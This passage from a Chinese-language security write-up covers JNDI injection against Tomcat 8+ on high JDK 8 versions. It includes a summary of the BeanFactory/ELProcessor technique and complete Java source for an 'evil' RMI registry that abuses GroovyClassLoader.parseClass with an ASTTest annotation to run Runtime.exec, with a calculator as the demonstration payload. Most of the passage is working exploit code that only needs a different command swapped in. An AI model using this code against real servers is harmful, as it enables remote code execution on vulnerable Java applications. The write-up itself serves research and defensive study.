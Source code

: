3. 执行客户端进行连接后，成功弹出计算器

**总结：**

适用版本：我目前测试了几个常用版本8u102、8u121、8u191、8u202都可以使用，可以说实用性很广了

利用前提：受害机器是tomcat8以上的版本，因为要tomcat8里面的jar包依赖

依赖了两个类都是tomcat8里面jar包存在的类

- org.apache.naming.factory.BeanFactory
- javax.el.ELProcessor

> javax.el.ELProcessor本身是Tomcat8中存在的库，所以仅限Tomcat8及更高版本环境下可以通过javax.el.ELProcessor进行攻击，对于使用广泛的SpringBoot应用来说，可被利用的Spring Boot Web Starter版本应在1.2.x及以上，因为1.1.x及1.0.x内置的是Tomcat7。
> 

### ****(2) 依赖groovy 2以上相关类****

客户端所需的jar包，pom.xml

```java
<dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy</artifactId>
            <version>2.4.5</version>
        </dependency>
```

服务端代码

```java
package com.yy.jndi.jdk8u121;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ExecByGroovyParse {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        String script = String.format("@groovy.transform.ASTTest(value={\n" +
                        "    assert java.lang.Runtime.getRuntime().exec(\"%s\")\n" +
                        "})\n" +
                        "def x\n",
//                commandGenerator.getBase64CommandTpl()
                "gnome-calculator"
        );
        ref.add(new StringRefAddr("x",script));
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(ref);
        registry.bind("exp", refObjWrapper);
        System.out.println("Creating evil RMI registry on port 1099");
    }
}
```
